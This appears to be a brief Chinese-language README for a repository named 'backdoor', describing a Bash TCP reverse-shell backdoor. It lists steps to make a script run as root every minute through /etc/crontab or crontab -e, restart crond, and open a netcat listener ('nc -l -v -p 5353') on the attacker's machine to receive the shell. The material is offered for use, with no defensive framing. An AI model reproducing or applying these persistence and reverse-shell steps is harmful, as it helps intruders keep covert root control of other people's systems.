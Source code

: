 # backdoor

****************************************************
1 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br><br>

systemctl restart crond<br>

控制机执行<br>
nc -l -v -p 5353<br>
